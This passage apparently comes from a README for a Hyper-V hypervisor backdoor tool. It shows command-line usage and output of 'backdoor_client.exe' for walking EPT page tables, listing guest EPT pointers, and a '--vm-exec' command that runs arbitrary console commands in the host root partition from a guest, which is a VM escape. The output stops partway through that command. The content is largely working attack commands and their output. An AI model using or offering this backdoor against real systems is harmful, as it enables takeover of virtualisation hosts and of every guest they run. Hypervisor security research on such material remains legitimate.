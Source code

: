 Translating guest virtual address to host physical address:

```
> .\backdoor_client.exe 0 --virt-translate 0x1ab000 0xfffff8017d1d5000 0x145f1000
[+] Running on CPU #0
backdoor_virt_translate(): PML4 is at 0x1ab000, VA is 0xfffff8017d1d5000
backdoor_phys_translate(): EPT PML4 is at 0x145f1000, VA is 0x1abf80
EPT PML4E 0x145f1000[0x0]: 0x145f9007
EPT PDPTE 0x145f9000[0x0]: 0x14612007
  EPT PDE 0x14612000[0x0]: 0x212b4007
  EPT PTE 0x212b4000[0x1ab]: 0x85900000001ab037
PML4E 0x1ab000[0x1f0]: 0x1344063
backdoor_phys_translate(): EPT PML4 is at 0x145f1000, VA is 0x1344028
EPT PML4E 0x145f1000[0x0]: 0x145f9007
EPT PDPTE 0x145f9000[0x0]: 0x14612007
  EPT PDE 0x14612000[0x9]: 0x212a3007
  EPT PTE 0x212a3000[0x144]: 0x8590000001344037
PDPTE 0x1344000[0x5]: 0x1345063
backdoor_phys_translate(): EPT PML4 is at 0x145f1000, VA is 0x1345f40
EPT PML4E 0x145f1000[0x0]: 0x145f9007
EPT PDPTE 0x145f9000[0x0]: 0x14612007
  EPT PDE 0x14612000[0x9]: 0x212a3007
  EPT PTE 0x212a3000[0x145]: 0x8590000001345037
  PDE 0x1345000[0x1e8]: 0x1395063
backdoor_phys_translate(): EPT PML4 is at 0x145f1000, VA is 0x1395ea8
EPT PML4E 0x145f1000[0x0]: 0x145f9007
EPT PDPTE 0x145f9000[0x0]: 0x14612007
  EPT PDE 0x14612000[0x9]: 0x212a3007
  EPT PTE 0x212a3000[0x195]: 0x8590000001395037
  PTE 0x1395000[0x1d5]: 0x80000000033d5963
backdoor_phys_translate(): EPT PML4 is at 0x145f1000, VA is 0x33d5000
EPT PML4E 0x145f1000[0x0]: 0x145f9007
EPT PDPTE 0x145f9000[0x0]: 0x14612007
  EPT PDE 0x14612000[0x19]: 0x21283007
  EPT PTE 0x21283000[0x1d5]: 0x85900000033d5037

0xfffff8017d1d5000 -> 0x00000000033d5000
```

## VM escape related commands

Execute arbitrary console commands in Hyper-V root partition from the guest operating system:

```
> .\backdoor_client.exe 0 --ept-list
[+] Running on CPU #0
[+] Collecting EPT address list...
[+] Reading collected data from 0xfffff86fff000b80...

  #00: VPID = 0x73f8, EPT = 0x0000000137e1405e [current]
  #01: VPID = 0x0002, EPT = 0x000000010143701e
  #02: VPID = 0x002c, EPT = 0x000000010143301e

> .\backdoor_client.exe 0 --vm-exec 0x10143701e "whoami"
[+] Running on CPU #0
[+] Loading VM exec drvier...
[+] Current CR3 value is 0x0000000075d00001
[+] Current EPT address is 0x0000000137e1405e
[+] Guest EPT is at 0x000000010143701e
[+] Found valid PROCESSOR_START_BLOCK at 0x0000000000001000

   CompletionFlag: 0x00000001
     HalpLMStub(): 0xfffff80406799760
     PML4 address: 0x1ad000

```